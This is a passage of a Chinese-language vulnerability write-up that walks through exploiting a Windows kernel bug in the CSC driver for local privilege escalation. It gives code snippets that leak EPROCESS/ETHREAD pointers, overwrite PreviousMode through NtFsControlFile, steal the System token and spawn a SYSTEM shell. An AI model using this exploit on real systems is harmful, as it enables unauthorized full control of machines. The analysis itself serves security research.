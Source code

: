 也就是说，当我们能够想办法将当前线程的PreviouseMode值为0的时候，我们即可绕过内存地址检查，直接调用NtReadVirtualMemory或者NtWriteVirtualMemory实现真正意义的任意地址写  
### EXP最终利用（旧版本）  
  
当我们能够实现任意地址写，即可配合这个github中提到的Windows常见泄露技巧，尝试泄露敏感进程（System进程）的Token，并且将该Token写入我们当前进程，即可实现提权。  
  
这边结合公开的脚本分析一下利用流程  
1. 首先利用由NtQuerySystemInformation封装的函数GetObjPtr泄露System进程的EPROCESS以及当前线程的ETHREAD：  
  
```
GetObjPtr(&Sysproc, 4, 4); // 泄露System EPROCESS，准备从这边获取token
Ret = GetObjPtr(&Curthread, GetCurrentProcessId(), hThread); // 获取当前线程ETHREAD，进行PreviousMode替换
hCurproc = OpenProcess(PROCESS_QUERY_INFORMATION, TRUE, GetCurrentProcessId()); // 泄露当前进程的EPROCESS，准备替换token

```  
1. 触发漏洞，将当前线程PreviousMode改写成0  
  
```
status = NtFsControlFile(handle, NULL, NULL, NULL, &iosb, CSC_DEV_FCB_XXX_CONTROL_FILE, /*Vuln arg*/ (void*)(Curthread + KTHREAD_PREVIOUS_MODE_OFFSET - 0x18), 0, NULL, 0);
if (!NT_SUCCESS(status))
{
    printf("[-] NtFsControlFile failed with status = %x\n", status);
    return status;
}

```  
1. 此时，可以实现往内核地址的读写，将System进程Token地址拷贝到当前进程  
  
```
Write64(Curproc + EPROCESS_TOKEN_OFFSET, Sysproc + EPROCESS_TOKEN_OFFSET, 0x8);

```  
1. 恢复PreviousMode，此时该进程完成提权  
  
```
//
// Restoring KTHREAD->PreviousMode
//
Write64(Curthread + KTHREAD_PREVIOUS_MODE_OFFSET, &mode, 0x1);

//
// spawn the shell with "nt authority\system"
//

system("cmd.exe");

```  
## 总结  
  
漏洞本身比较简单，不过攻击面本身基于网络文件系统，分析过程略有难度；利用在稍老的Windows版本上属于比较经典的用法，不过在新版本上由于已经无法利用NtQuerySystemInformation泄露Handle，可能需要使用其他的攻击原语完成攻击，感兴趣的同学可以尝试使用其他的常见原语进行漏洞利用，这里不展开介绍。  
## 参考文章  
  
https://www.cnblogs.com/iBinary/p/15838812.htmlhttps://query.prod.cms.rt.microsoft.com/cms/api/am/binary/RE375Xkhttps://learn.microsoft.com/en-us/windows-hardware/drivers/kernel/previousmodehttps://github.com/varwara/CVE-2024-26229/blob/main/CVE-2024-26229.c  
  
  
